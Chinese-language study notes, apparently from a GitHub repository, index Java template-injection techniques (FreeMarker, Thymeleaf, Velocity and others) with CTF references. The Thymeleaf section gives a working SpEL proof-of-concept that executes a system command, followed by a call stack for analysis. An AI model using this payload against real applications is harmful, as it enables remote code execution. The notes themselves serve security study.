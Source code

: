 # java 模板注入


>https://github.com/lufeirider/BypassShell/blob/master/JAVA/JAVA.md
>https://gosecure.github.io/template-injection-workshop/#0


+ [FreeMarker模板注入](FreeMarker)   后缀名.ftl
+ [Thymeleaf模板注入](Thymeleaf) **waero-ctf-2021-ideas-web 考察过**
+ [jsp模板注入](jsp)
+ [Velocity模板注入](Velocity)  **2021 四川省比赛省赛非攻Java logiclogic**  后缀名.vm  [wp](https://mp.weixin.qq.com/s?__biz=MzI3NDEzNzIxMg==&mid=2650481832&idx=2&sn=7b092fc6e26c7d5f131b8ef7a30dc85c&chksm=f3172dbbc460a4ad99f29b445dd92873304d7c34798f977695ba775a5096a6b707106190a09f&mpshare=1&scene=23&srcid=0924Bci6wWhHifB6Y7Cmc5hl&sharer_sharetime=1632452737857&sharer_shareid=33a823b10ae99f33a60db621d83241cb#rd)
+ [beetl模板注入](Beetl)
+ [jfinalcms enjoy](jfinalcms_enjoy) **2021 字节ctf考察过。**
+ [Java FreeMarker 模板引擎注入深入分析](https://mp.weixin.qq.com/s/aYTp0suulfjQ5dcocS33Kg)
-------------------------------------------------------------------------------------------------------------------------
# SSTI 

>花费了一些时间整理

# SSTI 

## Thymeleaf

> @panda 师傅已经分析的非常全面了，这里只是对自己学习做一个小总结。

Thymeleaf最后通过spel表达式进行代码执行的。

poc

```java
__${new java.util.Scanner(T(java.lang.Runtime).getRuntime().exec("calc").getInputStream()).next()}__::.x
```

正常的调用栈(方便分析)

```
execute:138, Expression (org.thymeleaf.standard.expression)
preprocess:91, StandardExpressionPreprocessor (org.thymeleaf.standard.expression)
parseExpression:120, StandardExpressionParser (org.thymeleaf.standard.expression)
parseExpression:62, StandardExpressionParser (org.thymeleaf.standard.expression)
parseExpression:44, StandardExpressionParser (org.thymeleaf.standard.expression)
renderFragment:282, ThymeleafView (org.thymeleaf.spring5.view)
render:190, ThymeleafView (org.thymeleaf.spring5.view)
render:1400, DispatcherServlet (org.springframework.web.servlet)
processDispatchResult:1145, DispatcherServlet (org.springframework.web.servlet)
doDispatch:1084, DispatcherServlet (org.springframework.web.servlet)
doService:963, DispatcherServlet (org.springframework.web.servlet)
processRequest:1006, FrameworkServlet (org.springframework.web.servlet)
doGet:898, FrameworkServlet (org.springframework.web.servlet)
service:655, HttpServlet (javax.servlet.http)
service:883, FrameworkServlet (org.springframework.web.servlet)
service:764, HttpServlet (javax.servlet.http)
internalDoFilter:227, ApplicationFilterChain (org.apache.catalina.core)
doFilter:162, ApplicationFilterChain (org.apache.catalina.core)
doFilter:53, WsFilter (org.apache.tomcat.websocket.server)
internalDoFilter:189, ApplicationFilterChain (org.apache.catalina.core)
doFilter:162, ApplicationFilterChain (org.apache.catalina.core)
doFilterInternal:100, RequestContextFilter (org.springframework.web.filter)
doFilter:119, OncePerRequestFilter (org.springframework.web.filter)
internalDoFilter:189, ApplicationFilterChain (org.apache.catalina.core)
```